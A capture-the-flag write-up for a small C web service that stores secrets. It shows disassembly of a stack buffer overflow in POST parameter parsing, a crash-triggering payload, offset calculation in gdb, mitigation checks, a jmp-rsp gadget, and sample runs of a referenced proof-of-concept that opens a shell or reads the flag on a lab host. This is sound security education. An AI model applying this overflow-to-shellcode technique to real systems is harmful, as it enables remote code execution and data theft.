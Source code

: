 # FHM Maintenance

## Description

> Password-protected web storage for secrets in C.

The provided description says it well, it's a web storage to store a secret.
This service created by team *M.I.S.T* is a **very** light HTTP server, so
light that I may even say it's a server which communicate using a HTTP-like
format.

You can:
- Get a static page
- Register a user with his secret
- Retrieve a secret

The access to this different functions is done through the HTTP method and
the URL:

| Action      | Method | URL        |
| ----------: | :----: | :--------- |
| Static page | GET    | /extern/\* |
| Get secret  | GET    | /intern    |
| Save secret | POST   | _*_        |


No need to develop the static page aspect as it's a basic HTTP behaviour.
However, saving and retrieving a secret must follow a specific scheme.

To register a secret, you must then send a POST request with all three
parameters `username`, `pass` and `secret`. **Note: **`secret`** must
not to be the last parameter, see** [vulnerabilities](#vulnerabilities).

To retrieve your secret, you must send a GET request with a HTTP basic
authentication header. Otherwise, you'll be asked to authenticate. Of course,
the credentials are the ones of the secret you want to get.

If you like web interfaces, you can start with `/extern/index.html` to perform
these actions easily.


### Flag

Flag Description:

> Flags are identified by the username.

The *flag* is the secret stored by the user *flag_id*.

For the technical aspect of the storage of the flags, it's very simple. Every
`username`, `pass` and `secret` are stored in a file under the
`rw/doc_root/htpass/` directory. The name of the file is the *url-safe base64*
encoding of the *SHA1* hash of the `username`. And the content of this file is:
```
username:{SHA}base64_of_sha1_of_pass
secret
```


## Vulnerabilities

As introduced in [description](#description), there is a strange behaviour when
`secret` is the last parameter of a POST request. We can just look at
the function which extract POST parameters (`get_post_credentials`):

```asm
|       |   0x004026d6      be74434000     mov esi, str.secret_        ; "secret=" @ 0x404374
|       |   0x004026db      4889ef         mov rdi, rbp
|       |   0x004026de      e89de8ffff     call sym.imp.strstr         ;[5]
|       |   0x004026e3      4885c0         test rax, rax
|      ,==< 0x004026e6      7438           je 0x402720                 ;[6]
|      ||   0x004026e8      80780726       cmp byte [rax + 7], 0x26    ; [0x26:1]=0 ; '&'
|      ||   0x004026ec      488d7007       lea rsi, [rax + 7]          ; 0x7
|     ,===< 0x004026f0      0f847c000000   je 0x402772                 ;[7]
|     |||   0x004026f6      4889f2         mov rdx, rsi
|     |||   0x004026f9      0f1f80000000.  nop dword [rax]
|    .----> 0x00402700      4883c201       add rdx, 1
|    ||||   0x00402704      803a26         cmp byte [rdx], 0x26        ; [0x26:1]=0 ; '&'
|    `====< 0x00402707      75f7           jne 0x402700                ;[8]
|     |||   0x00402709      4829f2         sub rdx, rsi
|     |||   0x0040270c      4883c408       add rsp, 8
|     |||   0x00402710      488dbb000100.  lea rdi, [rbx + 0x100]      ; 0x100
|     |||   0x00402717      5b             pop rbx
|     |||   0x00402718      5d             pop rbp
|     ||`=< 0x00402719      e972e9ffff     jmp sym.imp.memcpy          ;[4]
```

So to find the end of the parameter, the program only scans for the first `&`
character:
```asm
|    .----> 0x00402700      4883c201       add rdx, 1
|    ||||   0x00402704      803a26         cmp byte [rdx], 0x26        ; [0x26:1]=0 ; '&'
|    `====< 0x00402707      75f7           jne 0x402700                ;[8]
```

Neither the length is checked nor the end of the string. For `username` and
`pass` the length isn't checked neither, but the null character is.

We may then be able to overflow a buffer, but we must first study this buffer:

```
0             0x80            0x100           0x180
+---------------+---------------+---------------+
| username      | password      | secret        |
+---------------+---------------+---------------+
```

This buffer is located on the stack, in the stack frame of `buildBody`
function. It's exactly at address `rsp + 0x30` and the function prolog is:
```asm
mov r15, rsi
mov esi, 2
push r14
push r13
push r12
mov r12, rdi
push rbp
push rbx
sub rsp, 0x1b8
```

We may definitely be able control the flow of execution easily but first let be
sure the vulnerability really exists:
``` bash
$ python -c 'print "POST /test HTTP/1.0\r\n\r\nusername=test_user&secret="+"A"*0x100+"&pass=test_user\r\n";' | ../ro/FHM-Maintenance 
Segmentation fault
```

Then to find the exact amount of data to override to reach the return address,
we can just use **gdb**. First we'll generate the data to send:
```bash
python -c 'print "POST /test HTTP/1.0\r\n\r\nusername=test_user&secret=" + "".join([chr(i) for i in range(48,256)]) + "&pass=test_user\r\n"' > find_stack_length
```

Then in **gdb** we just have to run the program and inspect the stack:
```
gdb$ run < find_stack_length

Program received signal SIGSEGV, Segmentation fault.

gdb$ x/4w $rsp
0x7fffffffe008: 0xebeae9e8  0xefeeedec  0xf3f2f1f0  0xf7f6f5f4
```

To override the return address we then must write `0xf0 - 0x30 = 0xc0` bytes.


## Proof of Concept

Now that we can control the stack, we can look at the possible exploitation
options:
```
pic      false
canary   false
nx       false
bintype  elf
class    ELF64
arch     x86
bits     64
os       linux
endian   little
static   false
```

The binary is then:
  - a 64 bits ELF (but we already knew that)
  - dynamically linked
  - not position-independant (PIC/PIE)
  - not using canaries (hopefully as we want to use buffer overflows)
  - using a executable stack

As the binary isn't PIE, we can use ROP, but we may not find lots of gadgets
because of the dynamic linker. However here is one of the available gadgets:
```
0x00000000004027d9 : jmp rsp ; ret
```

In addtion the stack is executable, so we can do anything we want: opening a
shell, retrieving a file or anything else. We just need to append the
modified return address with the shellcode we want. However, while usual
shellcode must not to include null bytes, here we just need to have no `&`
characters. But doing so isn't more complicated than avoiding null bytes.
(*Note:* `0x26` is not a valid opcode in amd64)

The [PoC script][poc] can use the two first payloads: opening a shell and 
getting the flag by retrieving a file:
```bash
poc.py shell <ip> <port>
poc.py retrieve <ip> <port> <flag_id>
```

It crafts the shellcode based on **pwntools** library, but it could have been
done manually.

```bash
$ ./poc.py retrieve 192.168.56.101 20111 3977506951
FLG6KjytBw8ql5pl
```

```bash
./poc.py shell 192.168.56.101 20111
$ ls doc_root/extern
done.html
images
index.html
register.html
style.css
$ exit
```


[poc]: poc.py
